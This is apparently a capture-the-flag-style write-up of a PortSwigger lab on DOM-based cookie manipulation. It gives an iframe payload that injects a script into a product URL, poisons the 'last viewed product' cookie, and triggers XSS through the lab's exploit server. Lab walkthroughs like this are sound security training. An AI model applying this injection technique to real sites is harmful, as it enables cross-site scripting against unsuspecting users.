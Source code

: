# DOM-based cookie manipulation

## This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause [XSS](https://portswigger.net/web-security/cross-site-scripting) on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

___

**HINT:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

step 1

go to lab there a link `Last viewed product` next to home
when you will open any product then open another product it will display the last product
which is vulnerable
use Hint: replace with lab URl

```html
<iframe src="https://0a680071032737bc80fa268d00cf004f.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a680071032737bc80fa268d00cf004f.web-security-academy.net/';window.x=1;">
```

step 2

go to exploit section 
paste and click on deliver to exploit you will see lab solved

![[lab6_0.png]]

![[lab6_1.png]]